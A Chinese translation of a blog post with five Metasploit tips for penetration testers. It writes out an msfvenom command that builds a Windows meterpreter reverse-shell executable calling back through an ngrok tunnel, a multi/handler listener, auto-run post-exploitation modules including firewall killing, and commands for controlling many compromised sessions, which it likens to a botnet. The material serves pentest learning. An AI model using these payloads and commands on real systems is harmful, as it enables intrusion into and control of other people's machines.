

# 掌握 Metasploit:我发现得太晚的五个技巧

> 原文：<https://blog.devgenius.io/mastering-metasploit-five-tips-that-i-discovered-too-late-61c5ecb7c938?source=collection_archive---------2----------------------->


# 0.开始时:

从一开始， [Metasploit](https://www.metasploit.com/) 就被认为是一个强大的工具，有助于探测跨网络的系统漏洞。该框架提供了一个模块化平台，用于执行漏洞利用、有效负载、辅助功能、编码器、监听器、外壳代码和开发后代码。利用这个包含强大功能的强大工具，我将探索一些我希望在第一次开始使用 Metasploit 框架时就知道的特性。

# 1.打破东西的记录和责任:

在渗透测试项目期间，必须提供访问证据、潜在影响，以及在负面情况下，目标系统上运行的命令的责任。如果生产中的设备变得无响应并离线，pentester 会记录产生这种情况所运行的命令，如果安全专家能够访问数据，他们会有一个日志文件来展示对组织的影响。这可以利用 Metasploit 的假脱机功能来实现。

要捕获在 Metasploit 中运行的模块的输出，请使用 spool 命令并指定一个目标日志文件:

```
msf6> spool /tmp/Company_A_DC.log
```

# 2.设置全局变量以避免混乱:

为了在 pentest 中节省大量的输入，安全专家可以在 Metasploit 中设置全局变量。这可以通过 setg 命令来完成。一旦设置好这些变量，就可以根据需要在任意数量的漏洞和辅助模块中使用这些变量。也可以保存它们以供下次启动 Metasploit 时使用。然而，缺陷是忘记保存的变量，所以在运行模块之前总是检查选项。相反，unsetg 命令可用于取消设置全局变量。在下面的例子中，变量以全大写形式输入(例如:LHOST)，但是 Metasploit 不区分大小写，所以没有必要这样做。

```
msf6 > setg LHOST 192.168.1.101
LHOST => 192.168.1.101
msf6 > setg RHOSTS 192.168.1.0/24
RHOSTS => 192.168.1.0/24
msf6 > setg RHOST 192.168.1.136
RHOST => 192.168.1.136
```

# 3.懒惰黑客的回调自动化:

在约定期间，等待反向 shell 的回调可能会很乏味。如果 pentester 希望在收到 shell 后自动运行命令和模块，他们可以利用 AutoRunScript 功能来实现。

```
msf6 >set AutoRunScript multi_console_command -rc /root/commands.rc
```

`/root/commands.rc`包含您希望运行的命令，例如:

```
run post/windows/manage/migrate
run post/windows/manage/killfw
run post/windows/gather/checkvm
```

# 4.僵尸网络的会话管理:

在控制多个被入侵的设备时，pentester 可以利用 sessions 命令来列出、执行和操纵连接。这在控制一个小型僵尸网络时，或者如果有人想欺骗一群不知情的同伴时(当然是合法的)，会非常有用。

列出所有会话:

```
msf6 > sessions -l
```

在所有会话中执行命令:

```
msf6 > sessions -C <command>
```

终止所有会话:

```
msf6> sessions -K
```

在许多平台上将 shell 升级到 meterpreter 会话:

```
msf6> sessions -u
```

# 5.用 Ngrok 攻击局域网外部:

Ngrok 是一项免费服务，它将运行在本地机器上的服务器共享到互联网上。虽然没有直接内置到 Metasploit 功能中，但 Ngrok 的功能与 Metasploit 的有效负载相结合，产生了致命的组合。这种“穷人的反向外壳”几乎消除了对端口转发的需求，允许对强化网络的快速入侵和回调。

在 [ngrok](https://dashboard.ngrok.com/get-started/setup) 中设置一个免费账户并启动 ngrok:

```
./ngrok tcp 9999

# Forwarding tcp://0.tcp.ngrok.io:19631 -> localhost:9999
```

创建恶意负载:

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=0.tcp.ngrok.io LPORT=19631 -f exe > payload.exe
```

启动监听器:

```
msf6 > use exploit/multi/handler 
msf6 exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp 
msf6 exploit(multi/handler) > set LHOST 0.0.0.0 
msf6 exploit(multi/handler) > set LPORT 9999 
msf6 exploit(multi/handler) > exploit
```



如果你喜欢这篇文章，并学到了一些有用的技巧，请随时关注我的 [Github](https://github.com/RoseSecurity) 反病毒规避技术库，不断更新的 Red-Teaming 和 pentest TTP，等等！